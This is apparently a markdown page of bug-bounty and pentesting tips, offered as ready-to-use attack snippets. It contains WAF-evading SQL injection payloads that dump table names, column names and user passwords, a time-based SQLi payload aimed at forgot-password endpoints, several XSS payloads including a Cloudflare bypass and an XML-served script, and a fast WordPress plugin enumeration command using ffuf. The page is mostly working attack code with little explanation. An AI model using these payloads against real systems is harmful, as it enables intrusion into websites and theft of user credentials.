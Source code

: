 ## Turn a 2 hour "wpscan -e ap" scan into 10 min
```sh
curl https://t.co/bjcepky8e5 |jq -r '.plugins' | grep ": {" | cut -d "\"" -f2 |while read word; do echo /wp-content/plugins/$word/readme.txt; done > wordpress_dict.txt
ffuf -w wordpress_dict.txt -u $IP/FUZZ -t 400 -mr 'Contributors'
```

## Cloudflare XSS Bypass
```js
<a"/onclick=(confirm)()>Click Here!
```

## Web Attack WAF Bypass

### SQL Injection
```sql
1,group_concat(table_name) /*%%!asd%%%%*/from /*%%!asd%%%%*/information_schema.tables where table_schema=database(/*%%!asd%%%%*/) --+
```
```sql
1,group_concat(column_name) /*%%!asd%%%%*/from/*%%!asd%%%%*/information_schema.columns where table_name='users' --+
```
```sql
1' union/*%%!asd%%%%*/select group_concat(user),group_concat(password) /*%%!asd%%%%*/from/*%%!asd%%%%*/users --+
```

## Web Attack WAF Bypass

## XSS
```js
<audio src=1 onerror=alert(/xss/);>
<audio src=1 onerror=prompt('xss');>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4="></object>
```

## Time based SQLi -> forgot password Endpoint 😇 
1. Payload used: 

```sql
'%2b(select*from(select(sleep(20)))a)%2b'
```

2. Endpoint: /Forgot password 
Cheers 🍻 

## You can serve a XSS payload from a XML file: xss.xml:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>
```
📅 15-Dec-2020
## Abusing Docker API
***https://dreamlab.net/en/blog/post/abusing-exposed-docker-registry-apis/***
